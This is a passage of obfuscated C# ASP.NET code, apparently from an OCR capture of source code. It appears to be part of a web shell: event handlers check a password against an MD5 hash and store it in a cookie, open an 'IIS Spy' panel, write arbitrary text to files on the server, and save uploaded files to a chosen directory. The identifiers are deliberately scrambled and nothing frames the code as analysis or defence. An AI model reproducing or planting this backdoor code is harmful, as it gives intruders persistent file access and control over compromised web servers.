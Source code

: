 jDKt.Visible=true;
jDKt.InnerText=instr;
}
protected void xVm(object sender,EventArgs e)
{
string Jfm=FormsAuthentication.HashPasswordForStoringInConfigFile(HRJ.Text,"MD5").ToLower();
if(Jfm==Password)
{
Response.Cookies.Add(new HttpCookie(vbhLn,Password));
ljtzC.Visible=false;
PBZw();
}
else
{
tZSx();
}
}
protected void Ybg(object sender,EventArgs e)
{
krIR(Server.MapPath("."));
}
protected void KjPi(object sender,EventArgs e)
{
Bin_H2_Title.InnerText="IIS Spy >>";
WICxe();
VNR.Visible=true;
AdCx();
}
protected void DGCoW(object sender,EventArgs e)
{
try
{
StreamWriter sw;
if(NdCX.SelectedItem.Text=="UTF-8")
{
sw=new StreamWriter(Sqon.Value,false,Encoding.UTF8);
}
else
{
sw=new StreamWriter(Sqon.Value,false,Encoding.Default);
}
sw.Write(Xgvv.InnerText);
sw.Close();
xseuB("Save file success !");
}
catch(Exception error)
{
xseuB(error.Message);
}
krIR(AXSbb.Value);
}
protected void lbjLD(object sender,EventArgs e)
{
string FlwA=AXSbb.Value;
FlwA=OElM(FlwA);
try
{
Fhq.PostedFile.SaveAs(FlwA+Path.GetFileName(Fhq.Value));
xseuB("File upload success!");
}
catch(Exception error)
{
xseuB(error.Message);
}